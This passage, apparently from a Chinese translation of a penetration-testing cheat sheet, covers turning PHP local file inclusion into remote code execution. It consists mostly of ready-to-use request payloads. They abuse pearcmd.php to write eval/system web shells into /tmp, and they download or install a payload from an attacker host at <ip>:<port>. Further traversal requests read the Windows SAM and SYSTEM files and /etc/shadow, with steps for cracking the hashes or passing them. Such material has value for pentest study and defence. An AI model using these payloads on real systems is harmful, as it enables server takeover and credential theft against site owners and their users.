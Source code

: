 有以下几种方法可以利用它。

- **方法1**：config create

  ```ps1
  /vuln.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=eval($_GET['cmd'])?>+/tmp/exec.php
  /vuln.php?file=/tmp/exec.php&cmd=phpinfo();die();
  ```

- **方法2**：man_dir

  ```ps1
  /vuln.php?file=/usr/local/lib/php/pearcmd.php&+-c+/tmp/exec.php+-d+man_dir=<?echo(system($_GET['c']));?>+-s+
  /vuln.php?file=/tmp/exec.php&c=id
  ```

  创建的配置文件包含网络外壳。

  ```php
  #PEAR_Config 0.9
  a:2:{s:10:"__channels";a:2:{s:12:"pecl.php.net";a:0:{}s:5:"__uri";a:0:{}}s:7:"man_dir";s:29:"<?echo(system($_GET['c']));?>";}
  ```

- **方法3**：download（需要外部网络连接）。

  ```ps1
  /vuln.php?file=/usr/local/lib/php/pearcmd.php&+download+http://<ip>:<port>/exec.php
  /vuln.php?file=exec.php&c=id
  ```

- **方法4**：install（需要外部网络连接）。注意`exec.php`位于`/tmp/pear/download/exec.php`。

  ```ps1
  /vuln.php?file=/usr/local/lib/php/pearcmd.php&+install+http://<ip>:<port>/exec.php
  /vuln.php?file=/tmp/pear/download/exec.php&c=id
  ```

## 通过凭据文件进行LFI到RCE

此方法需要在应用程序内具有高权限才能读取敏感文件。

### Windows版本

提取`sam`和`system`文件。

```powershell
http://example.com/index.php?page=../../../../../../WINDOWS/repair/sam
http://example.com/index.php?page=../../../../../../WINDOWS/repair/system
```

然后从这些文件中提取哈希`samdump2 SYSTEM SAM > hashes.txt`，并使用`hashcat/john`破解它们，或者使用Pass The Hash技术重放它们。

### Linux版本

提取`/etc/shadow`文件。

```powershell
http://example.com/index.php?page=../../../../../../etc/shadow
```
